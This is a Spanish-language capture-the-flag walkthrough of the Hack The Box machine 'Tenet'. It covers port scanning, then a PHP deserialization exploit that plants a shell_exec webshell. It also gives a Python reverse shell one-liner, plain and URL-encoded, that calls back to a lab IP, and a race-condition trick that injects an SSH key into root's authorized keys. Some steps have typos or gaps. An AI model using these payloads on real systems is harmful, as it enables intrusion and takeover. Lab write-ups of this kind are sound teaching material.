

# Tenet


## Enumeración.

Realizamos un escaneo con nmap para saber los puertos abiertos en el rango de 1-65536 puertos.

```text
# Nmap 7.91 scan initiated Wed Mar 3 20:48:50 2021 as: nmap -p- --open -n -T5 -v -oG allPorts 10.10.10.223
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.223 () Status: Up
Host: 10.10.10.223 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http/// Ignored State: closed (65533)
# Nmap done at Wed Mar 3 20:49:17 2021 -- 1 IP address (1 host up) scanned in 27.31 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p- | Escaneo a los 65536 puertos |
| --open | Reporta solo los puertos con estado "open". |
| -T5 | Exploracion a velocidades insanas \(lo hago porque es un entorno de pruebas\). |
| -v | Muestra más información sobre el sondeo que se está realizando. |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts. |

Posteriormente verificamos la versión de los servicios en los puertos abiertos y lanzamos los scripts por defecto.

```text
# Nmap 7.91 scan initiated Wed Mar 3 20:51:12 2021 as: nmap -sCV -p22,80 -oN targeted 10.10.10.223
Nmap scan report for 10.10.10.223
Host is up (0.072s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
| 256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_ 256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar 3 20:51:23 2021 -- 1 IP address (1 host up) scanned in 10.53 seconds
```

Añadimos vhost a /etc/hosts

```text
echo "10.10.10.223 tenet.htb" >> /etc/hosts
```

Se menciona un archivo sator.php y sator.php.bak.


Como el archivo y backup no se encuentran.


Empecé a buscar algún vhost domain, primero use una esta lista de SecList, pero no me arroja ningún resultado.



Después pase a realizar una personalizada de la siguiente manera.

```text
grep -R "sator" /opt/SecLists/Discovery/DNS/* | cut -d ":" -f 2 > list.tx
```

Tampoco funcionó, por lo que hice otra lista pero con caracteres de la página.

```text
cewl -d 2 -m 5 -w list2.txt http://tenet.htb/
```

## Punto de acceso.

Era más fácil de lo que crei, ya que era la misma palabra sator el vhost \(lo agregamos como lo hicimos anteriormente\), esto funcionó por lo que dentro de http:/sator.tener.htb/sator.php.bak se encontraba un backup y sator.php, en el backup podemos ver el funcionamiento de sator.php.

1. Vemos que la clase tiene dos variables globales $user\_file y $data.
2. Hay una función llamada update\_db, graba el texto en el archivo.
3. Después tenemos un método destructor que será llamado tan pronto como no haya otras referencias a un objeto determinado, posteriormente hará uso de la funcion file\_put\_contents\(\), recibiendo como argumentos, la ruta donde se va a guardar, el nombre será lo que está almacenado en $user\_file y con el contenido de $data.
4. Vemos que espera una variable de entrada en GET y la asigna a $input, posteriormente utiliza unserialize\($input\), toma una variable serializada y la vuelve a convertir a un valor de PHP.






Creamos un archivo .php como se vio en el ejemplo anterior, pero con los parametrios que nosotros necesitamos.

```php
<?php
class DatabaseExport {
 public $user_file = 'webshell.php';
 public $data = '<?php echo "<pre>"; echo shell_exec($_GET[\'cmd\']); echo "</pre>"?>';
}
print urlencode(serialize(new DatabaseExport));
```

Utilizamos etiquetas pre formateadas para que no se pierda el formato al momento de lanzar un comando.

Este resultado se lo pasamos a sator.tenet.htb.sator.php?arepo=\(RESULTADO\), como sabemos el script guarda los archivos en / por lo que si accedemos a sator.tenet.htb/webshell.php, le pasamos como variable cmd y parámetros lo que deseemos. Es posible ejecutar comando


Otros enlaces de ayuda.







Ya que podemos ejecutar comenzó, pasamos a obtener una conexión con el servidor. Solo copiaremos el resultado al final de la URL.

Input

```php
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.101",7000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Resultado:

```php
%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%35%2e%31%30%31%22%2c%37%30%30%30%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%2f%62%69%6e%2f%62%61%73%68%22%29%27
```

## Movimiento lateral.

### Usuario neil.

En /var/www/html/wordpress/wp-config.php, existe un archivo con contraseñas por defecto.


## Escalada de privilegios.

Verificando si podemos correr algo como root de forma temporal, vemos que hay un script en bash.


La función addKey, crea un nombre temporal clave público en ese archivo creado, lo chequea con la función checkFile y lo elimina. Por lo que deberíamos de poder ser capaces de leer y escribir en este archivo antes de que sea eliminado, pero debe de ser de manera muy rápida.



Por lo que podemos hacer lo siguiente para autorizarnos nuestra llave.

```php
white true;do echo $(cat /tmp/root_rsa) >> /root/.ssh/authorized_key; done
```


El problema es que es muy lento, por lo tanto siguiéndolo, pero con una &gt;&gt; alternativa es tee


Nos conectamos por medio de SSH.


